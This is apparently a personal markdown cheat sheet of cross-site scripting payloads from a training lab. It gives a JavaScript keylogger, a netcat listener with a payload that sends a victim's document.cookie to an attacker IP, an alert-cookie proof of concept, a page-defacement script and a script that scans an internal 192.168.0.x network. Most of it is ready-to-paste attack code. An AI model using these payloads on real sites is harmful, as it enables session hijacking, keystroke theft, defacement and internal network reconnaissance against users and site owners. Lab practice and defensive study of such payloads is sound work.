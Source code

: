 # XSS
## Basics 
- Cross-site scripting (XSS) is a security vulnerability typically found in web applications. Its a type of injection which can allow an attacker to execute malicious scripts and have it execute on a victims machine.
- A web application is vulnerable to XSS if it uses unsanitized user input. XSS is possible in Javascript, VBScript, Flash and CSS.

## Stored XX
### Key Logger
````
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
````
### Chat Room XSS
- Start a netcat listener on your attack box
````
nc -nlvp 4444
````
- Take this XSS payload and paste it in the chat room and submit:
````
<script>window.location='http://10.13.**.**:4444/?cookie='+document.cookie</script>
````
- Note: Send the payload and then open the listener 
## Stored XSS Payloads
- Stored XSS pop up to display your cookies, good for a POC
````
<script>alert(document.cookie)</script>
````
- Adding HTML to a website
````
<title>Example document: XSS Doc</title>
````
- Deface website title. You will need inspect element and find the name of the element you want to change. `thm-title` is the element name in this example.
````
<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>
````
## DOM-Based XSS
- Script to scan and internal network
````
 <script>
 for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
 }
</script> 
````


























































